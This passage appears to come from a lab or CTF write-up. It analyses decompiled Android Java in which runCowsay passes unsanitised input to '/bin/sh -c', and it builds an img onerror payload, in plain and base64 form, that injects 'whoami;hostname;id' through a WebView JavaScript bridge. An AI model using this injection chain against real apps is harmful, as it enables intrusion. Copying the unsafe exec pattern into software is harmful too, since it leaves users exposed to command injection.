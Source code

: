 ```java
public final String runCowsay(String message) {
    Intrinsics.checkNotNullParameter(message, "message");
    try {
        String[] command = {"/bin/sh", "-c", CowsayUtil.scriptPath + ' ' + message};
        Process process = Runtime.getRuntime().exec(command);
        StringBuilder output = new StringBuilder();
        InputStream inputStream = process.getInputStream();
        Intrinsics.checkNotNullExpressionValue(inputStream, "getInputStream(...)");
        InputStreamReader inputStreamReader = new InputStreamReader(inputStream, Charsets.UTF_8);
        BufferedReader bufferedReader = inputStreamReader instanceof BufferedReader ? (BufferedReader) inputStreamReader : new BufferedReader(inputStreamReader, 8192);
        BufferedReader reader = bufferedReader;
        while (true) {
            String it = reader.readLine();
            if (it == null) {
                Unit unit = Unit.INSTANCE;
                CloseableKt.closeFinally(bufferedReader, null);
                process.waitFor();
                String sb = output.toString();
                Intrinsics.checkNotNullExpressionValue(sb, "toString(...)");
                return sb;
            }
            output.append(it).append("\n");
        }
    } catch (Exception e) {
        e.printStackTrace();
        return "cowsay: " + e.getMessage();
    }
}
```

The `runCowsay()` will execute `/bin/sh -c cowsay.sh message`. The `cowsay.sh` is intialized as a variable in the `CowsayUtil` class. The message is not sanitized and hence we can inject our commands.

```java
private static final String SCRIPT_NAME = "cowsay.sh";
private static String scriptPath;
```

Now let's try to execute some commands and see. we have to call `WebAppInterface.postCowsayMessage()` with the message as the command we need to be injected. Let's craft our payload.

Hmtl code

```shell
<img src=x onerror="WebAppInterface.postCowsayMessage('whoami;hostname;id')">
```

base64 encoded string

```shell
PGltZyBzcmM9eCBvbmVycm9yPSJXZWJBcHBJbnRlcmZhY2UucG9zdENvd3NheU1lc3NhZ2UoJ3dob2FtaTtob3N0bmFtZTtpZCcpIj4=
```
